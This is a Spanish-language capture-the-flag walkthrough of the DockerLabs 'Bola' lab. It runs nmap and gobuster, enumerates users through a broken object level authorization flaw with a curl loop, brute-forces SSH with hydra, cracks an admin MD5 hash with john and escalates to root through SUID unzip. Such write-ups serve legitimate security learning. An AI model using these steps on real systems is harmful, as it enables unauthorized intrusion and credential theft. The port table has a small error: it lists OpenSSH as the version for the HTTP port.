___
Tags: #BrokenObjectLevelAuthorization #api 
___
# Bola

## Información General

**- Dificultad:** Media <br>
**- Sistema operativo:** Linux <br>
**- Vulnerabilidad explotada.**  broken object level authorization <br>
**- Fecha de resolución:** 26/03/2026 <br>
**- Enlace:** https://dockerlabs.es <br>

## Reconocimiento

**Dockerlabs** nos proporciona la ip de la máquina objetivo **172.17.0.2**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 172.17.0.2
```

**Su el ttl es 64. Por tanto, es Linux**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```

```bash
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 4f:3f:8c:fb:88:da:ea:37:d6:9f:c3:bd:f4:8e:18:1b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLqKJJuop/mcG/zg/OLvjxSRtoe9w7Skzudsk4857AFMe6OV1mwkTMvKaj/vExE9hC5Hn/vRYfX4C0FlkT2/FcU=
|   256 2e:a1:36:ff:8b:bb:0d:b3:c8:cb:4a:81:cb:37:77:31 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBuf+QWMiOLoFWjKQoi2b+WNJBtgxDilI+kqd8FcFYsI
12345/tcp open  http    syn-ack ttl 64 Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Site doesn't have a title (application/json).
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Open port | Service | Version                                       |
| --------- | ------- | --------------------------------------------- |
| 22        | ssh     | OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0) |
| 12345     | http    | OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0) |

### Enumeración web

#### Gobuster

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html
```

<p align="center"> 

</p>

## Explotación

### Broken Object Level Authorization

Probando la ruta **user** y añadiendo números, descubro hay usuarios diferentes

```
http://172.17.0.2:12345/user/1
http://172.17.0.2:12345/user/2
```

<p align="center"> 


</p>

Tras hacer esto, nos damos que estamos antes un **broken object level authorization** es una vulnerabilidad de API donde el servidor permite acceder, modificar o borrar objetos (como perfiles, pedidos, archivos, vehículos, etc.) simplemente cambiando el ID en la petición, sin comprobar si el usuario tiene permiso para ese objeto concreto.

Desarrollo el siguiente script, con la idea de conseguir todos los usuarios que tiene la api, descubro que hay un total de 20 usuarios

```bash 
URL="http://172.17.0.2:12345/user"

for id in {1..20}; do
        curl "$URL/$id"
        echo -e "\n-------------"
done
```

```
chmod +x bola.sh
bash bola.sh >> user.txt  
```

Luego dejando solamente los nombre usuarios en otro .txt, lo dejo en la siguiente forma: 

<p align="center"> 

</p>

```
hydra -L userall.txt -P userall.txt ssh://172.17.0.2 -s 22 -vV -t 4
```

<p align="center"> 

</p>

```
ssh steven@172.17.0.2
```

<p align="center"> 

</p>

## Escalada de Privilegios

Tras no funcionarme el comando **sudo -l** empiezo investigar el fichero **/etc/passwd** 

```
cat /etc/passwd
```

<p align="center"> 

</p>

Descubro que el usuario admin se llama **baluadmin** y además, esta el servicio **mysql** activo. Intento probar con las credenciales que ya tengo <font color="#92d050">steven:steven</font>

### mysql 

```
mysql -u steven -psteven
```

<p align="center"> 

</p>

```
show databases;
```

<p align="center"> 

</p>

```
use secretito
show tables;
```

<p align="center"> 

</p>

```
select * from usuarios;
```

<p align="center"> 

</p>

Consigo el hash md5 del usuario <font color="#92d050">baluadmin:aa87ddc5b4c24406d26ddad771ef44b0</font>

Guardamos el hash en un txt y usemos la herramienta john en nuestra maquina atacante

```
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<p align="center"> 

</p>

Credenciales: <font color="#92d050">baluadmin:estrella</font>

```
su baluadmin
sudo -l
```

<p align="center"> 

</p>

Descubro que la raiz hay una carpeta unzip para comprimir

```
cd /
ls -la
```

<p align="center"> 

</p>

```
su root
```

<p align="center"> 

</p>

## Conclusión

El laboratorio BOLA de DockerLabs está muy bien, ya que trabajamos con una vulnerabilidad de API llamada **Broken Object Level Authorization**. Por último, en la escalada de privilegios entramos en una base de datos, localizamos el hash del usuario administrador, lo desciframos y accedemos como el usuario `baluadmin`. A partir de ahí, usando el binario SUID `unzip`, descomprimimos un archivo `.zip` en el que se encontraba la contraseña del usuario `root`.